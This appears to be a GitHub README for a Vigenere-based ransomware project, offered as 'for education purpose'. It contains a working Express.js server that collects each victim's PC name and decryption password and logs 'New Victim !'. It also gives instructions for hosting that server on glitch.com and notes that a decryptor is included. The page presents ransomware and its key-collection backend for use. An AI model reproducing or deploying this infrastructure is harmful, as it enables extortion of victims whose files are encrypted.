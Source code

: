 # REVENGE RANSOMEWARE
a vigenere encrypt ransomeware by me :p, for education purpose.
**MAKE SURE TO STAR THE PROJECT :)**

# Used Algorithm
- Vigenere

# NOTE
i didnt try this, so try it on virtual machine to make sure it works perfectly, If you encounter any problems tell me in [issues](https://github.com/Bowlingtoolkit/Vigenere-Ransomeware/issues)
also i created this only for *education purpose* .


# Express Node.js Server (To Get The Password For Decrypt) Example:
```js
const express = require("express");
const bodyParser = require("body-parser");
const fs = require("fs");
const app = express();

app.use(express.static("public"));
app.use(bodyParser.json())
//url.com/new
app.post('/new', (req, res) => {
  var pcname = req.body.user;
  var password = req.body.pass;

  var createStream = fs.createWriteStream(`public/${pcname}.txt`);
  createStream.end();
  
  fs.writeFile(`./public/${pcname}.txt`, `password=${password}`, (err) => {
    if(err) return console.log(err);
    console.log("New Victim !")
  });
  res.send("done")
})

const listener = app.listen(3000, () => {
  console.log("Your app is listening on port 3000");
});
 
```
- You can use [glitch.com](https://glitch.com) to create projects to get the decrypt password, if you want fresh project [clickhere](https://glitch.com/edit/#!/remix/revenge-ransome)


[Virustotal Scan Result](https://www.virustotal.com/gui/file/acf5c8c6b8658cf20e78a2a812db79dbd67ce65992dd0f5f6353962fec94a02c/detection)


# Change Log:
- Now includes the decrypt software :)
